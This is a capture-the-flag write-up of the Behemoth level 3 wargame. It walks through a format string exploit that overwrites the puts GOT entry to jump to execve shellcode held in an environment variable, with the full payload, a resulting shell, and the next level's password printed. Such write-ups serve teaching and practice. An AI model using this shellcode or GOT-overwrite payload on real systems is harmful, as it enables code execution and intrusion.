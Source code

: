 Brilliant! We got a format string vulnerability, right here:

```
 80484b8:       8d 85 38 ff ff ff       lea    eax,[ebp-0xc8]
 80484be:       50                      push   eax
 80484bf:       e8 6c fe ff ff          call   8048330 <printf@plt>
```

The second printf is hidden! It only outputs our input directly. Now we just need to overwrite the ```GOT``` entry of ```puts``` with the address of our shellcode and we will get a shell!

```
behemoth3@behemoth:/behemoth$ objdump -R behemoth3

behemoth3:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049794 R_386_GLOB_DAT    __gmon_start__
080497c0 R_386_COPY        stdin@@GLIBC_2.0
080497a4 R_386_JUMP_SLOT   printf@GLIBC_2.0
080497a8 R_386_JUMP_SLOT   fgets@GLIBC_2.0
080497ac R_386_JUMP_SLOT   puts@GLIBC_2.0
080497b0 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
```

Alright, we have our ```GOT``` address, now, let's see where exactly in memory our input is.

```
gdb-peda$ x/20wx $esp
0xffffd5fc:     0xffffd600      0x61616161      0xf7fe000a      0x08048200
0xffffd60c:     0xffffd678      0xf7ffda7c      0x00000001      0xf7fd3110
0xffffd61c:     0x00000001      0x00000000      0x00000001      0xf7ffd920
0xffffd62c:     0xf7ea2d0b      0xffffd65e      0x00000000      0xf7fe3100
0xffffd63c:     0xf7ffdc10      0xffffd65f      0x0000004d      0x002c307d
```

This is the memory layout before the important ```printf``` is called and our input would be the second parameter to ```printf``` (format string included)

```
behemoth3@behemoth:/behemoth$ ./behemoth3
Identify yourself: aaaa.%08x
Welcome, aaaa.61616161

aaaand goodbye again.
```
Yep, I was right, it is the next parameter. Luckily, I was trained in this art back when I was solving the ```Exploit Education``` challenges, this is going to be easy! :)
Now, let's place our shellcode, and find its address with the same executable as before.

```
behemoth3@behemoth:/behemoth$ export SHELLCODE=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")
behemoth3@behemoth:/behemoth$ /tmp/getenv
0xffffde79
behemoth3@behemoth:/behemoth$ (python -c 'print "\xac\x97\x04\x08\xae\x97\x04\x08" + "a" * 4  + "%56941x%1$hn%8586x%2$hn"';cat) | ./behemoth3
whoami
behemoth4
cat /etc/behemoth_pass/behemoth4
ietheishei
```
